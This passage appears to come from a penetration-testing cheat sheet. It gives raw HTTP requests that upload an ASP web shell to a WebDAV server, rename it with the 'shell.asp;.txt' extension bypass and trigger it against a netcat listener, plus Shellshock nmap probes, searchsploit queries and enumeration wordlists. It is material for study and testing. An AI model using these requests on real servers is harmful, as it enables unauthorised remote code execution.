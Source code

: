 Upload ASP shell with .txt extension to WebDAV using PUT
```
PUT /shell.txt HTTP/1.1
Host: 192.168.1.23
Content-Length: 38337

[ASP shellcode content here]
```

Move shell.txt to shell.asp;.txt
```
COPY /shell.txt HTTP/1.1
Host: 192.168.1.23
Destination: http://192.168.1.23/shell.asp%3b.txt


```

Execute shell.asp;.txt, make sure to open a nc listener on port 443
```
GET /shell.asp%3b.txt HTTP/1.1
Host: 192.168.1.23


```

### CGI
* Use `/usr/share/seclists/Discovery/Web_Content/cgis.txt` wordlist to find cgi pages.
* `searchsploit apache cgi`
* `nmap --script=http-shellshock --script-args uri=/cgi-bin/test.cgi --script-args uri=/cgi-bin/admin.cgi`

### PHP
```sh
# PHP 5.5.9 search order, edit if necessary, eg. php version, windows?.
searchsploit --colour -t php 5 | grep -v '/dos/\|/windows' | grep -iP '^(php|apache \+ php) (\d|<)'
searchsploit --colour -t php 5.5 | grep -v '/dos/\|/windows' | grep -iP '^(php|apache \+ php) (\d|<)'
searchsploit --colour -t php 5.x | grep -v '/dos/\|/windows' | grep -iP '^(php|apache \+ php) (\d|<)'
```

### HTTP Enumeration Tips

#### Wordlists
* Dirsearch - ~/tools/dirsearch/db/dicc.txt
* DirB - /usr/share/dirb/wordlists/
* wfuzz - /usr/share/wfuzz/wordlist/
* SecList - /usr/share/seclists/
  * /usr/share/seclists/Discovery/Web_Content/
  * /usr/share/seclists/Discovery/Web_Content/common.txt
  * /usr/share/seclists/Discovery/Web_Content/cgis.txt
